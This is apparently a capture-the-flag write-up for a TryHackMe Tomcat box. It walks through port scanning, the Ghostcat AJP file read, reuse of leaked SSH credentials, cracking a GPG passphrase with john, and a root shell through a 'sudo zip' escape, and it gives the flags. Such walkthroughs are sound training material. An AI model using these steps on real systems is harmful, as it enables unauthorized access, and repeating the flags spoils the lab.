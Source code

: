 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE    |
| :--- | :--------- |
| 22   | ssh        |
| 53   | tcpwrapped |
| 8009 | ajp13      |
| 8080 | http       |

```
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



# RECONNAISSANCE
---

From the scan, we can check that we're dealing with `apache tomcat 9.0.30`, we can look up for vulnerabilities regarding this version:


![Pasted image 20250331134324.png](../../IMAGES/Pasted%20image%2020250331134324.png)

![Pasted image 20250331134331.png](../../IMAGES/Pasted%20image%2020250331134331.png)


We can look up this in `metasploit`:

![Pasted image 20250331134514.png](../../IMAGES/Pasted%20image%2020250331134514.png)

Let's test if it works:

![Pasted image 20250331134552.png](../../IMAGES/Pasted%20image%2020250331134552.png)

It works, let's proceed with exploitation.


# EXPLOITATION
---

Since we were able to read the `/WEB-INF/web.xml` file, we noticed it came with some credentials, we can access `ssh` with them:


```
skyfuck:8730281lkjlkjdqlksalks
```



![Pasted image 20250331135832.png](../../IMAGES/Pasted%20image%2020250331135832.png)

Let's begin privesc.


# PRIVILEGE ESCALATION
---


If we check `skyfuck` home, we can find this:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

We got some encrypted credentials, but to our luck we also got the `.asc` private file to decrypt, let's do it:

![Pasted image 20250331140554.png](../../IMAGES/Pasted%20image%2020250331140554.png)

If we try importing it, we notice we need a passphrase, let's use `gpg2john` to get it:

```
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

We get this:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"
Use the "--format=gpg-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2025-03-31 19:06) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Passphrase is `alexandru`, let's check the credentials now:

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

We get this:

```
gpg --decrypt credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We got the credentials for another user: `merlin`, let's go into ssh:

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can now read `user.txt`:

```
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```


We can check our privileges:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

We got root permissions on `/usr/bin/zip`, let's check it on `gtfobins`

![Pasted image 20250331141148.png](../../IMAGES/Pasted%20image%2020250331141148.png)

We can do the following in order to get an interactive shell as root:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh -c "sh <&2 1>&2"'
```

![Pasted image 20250331141357.png](../../IMAGES/Pasted%20image%2020250331141357.png)

We can now read `root.txt`:

```
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

![Pasted image 20250331141444.png](../../IMAGES/Pasted%20image%2020250331141444.png)

